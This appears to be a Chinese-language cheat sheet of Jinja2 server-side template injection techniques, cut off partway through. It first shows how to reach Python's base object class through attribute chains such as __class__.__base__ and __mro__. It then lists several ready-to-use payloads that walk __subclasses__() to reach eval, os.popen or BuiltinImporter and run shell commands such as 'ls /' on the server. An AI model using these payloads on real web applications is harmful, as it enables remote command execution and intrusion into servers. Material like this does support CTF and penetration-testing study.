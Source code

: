 ## Python模板注入绕过技巧

## Jinja SSTI 备忘录

#### 基类

```python
# bases 会返回元组形式 
>>> __bases__[0] == __base__
#因为 mro 会显示继承顺序，而所有类最终都继承自一个特殊的基类 object，所以 __mro__[-1] 总是能拿到基类
>>> __base__*N == __mro__[-1] 

[].__class__.__base__
''.__class__.__base__
().__class__.__base__
{}.__class__.__base__

request.__class__.__mro__[-1] # 需要导入过 request 模块
dict.__class__.__mro__[-1]
config.__class__.__base__.__base__
config.__class__.__base__.__base__
```



#### 通用 payload ( Python3 )

```python
# 命令执行_eval
 {% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}
{% endfor %}

# 命令执行_os.py
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'os' in x.__init__.__globals__ %}
        {{ x.__init__.__globals__['os'].popen('ls /').read() }}
    {% endif %}
{% endfor %}

# 命令执行_popen
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'popen' in x.__init__.__globals__ %}
        {{ x.__init__.__globals__['popen']('ls /').read() }}
    {% endif %}
{% endfor %}

# 命令执行__frozen_importlib.BuiltinImporter
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if 'BuiltinImporter' in x.__name__ %}
        {{ x["load_module"]("os")["popen"]("ls /").read() }}
    {% endif %}
{% endfor %}

# 命令执行_linecache
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'linecache' in x.__init__.__globals__ %}
```